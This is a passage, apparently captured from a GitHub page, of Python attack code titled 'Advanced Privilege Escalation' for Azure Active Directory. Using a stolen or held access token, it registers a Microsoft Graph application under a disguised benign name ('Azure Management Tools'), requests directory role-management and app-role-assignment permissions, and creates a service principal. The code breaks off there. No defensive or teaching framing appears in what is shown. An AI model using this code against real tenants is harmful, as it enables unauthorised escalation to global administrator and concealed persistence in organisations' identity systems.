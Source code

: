 ## Advanced Privilege Escalation

### Global Administrator Escalation

```python
class AzureADPrivilegeEscalation:
    def __init__(self, access_token):
        self.access_token = access_token
        self.graph_url = "https://graph.microsoft.com/v1.0"

    def escalate_via_application_admin(self):
        """Escalate privileges using Application Administrator role"""
        headers = {
            'Authorization': f'Bearer {self.access_token}',
            'Content-Type': 'application/json'
        }

        # Step 1: Create new application with high privileges
        app_data = {
            "displayName": "Azure Management Tools",
            "description": "Internal Azure management utilities",
            "signInAudience": "AzureADMyOrg",
            "requiredResourceAccess": [
                {
                    "resourceAppId": "00000003-0000-0000-c000-000000000000",  # MS Graph
                    "resourceAccess": [
                        {
                            "id": "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8",  # RoleManagement.ReadWrite.Directory
                            "type": "Role"
                        },
                        {
                            "id": "06b708a9-e830-4db3-a914-8e69da51d44f",  # AppRoleAssignment.ReadWrite.All
                            "type": "Role"
                        }
                    ]
                }
            ]
        }

        # Create application
        app_response = requests.post(f"{self.graph_url}/applications",
                                   headers=headers, json=app_data)

        if app_response.status_code != 201:
            print(f"Application creation failed: {app_response.text}")
            return False

        app_id = app_response.json()['appId']
        app_object_id = app_response.json()['id']

        # Step 2: Create service principal
        sp_data = {"appId": app_id}
        sp_response = requests.post(f"{self.graph_url}/servicePrincipals",
                                  headers=headers, json=sp_data)

        if sp_response.status_code != 201:
            print(f"Service principal creation failed: {sp_response.text}")
            return False

        sp_object_id = sp_response.json()['id']

```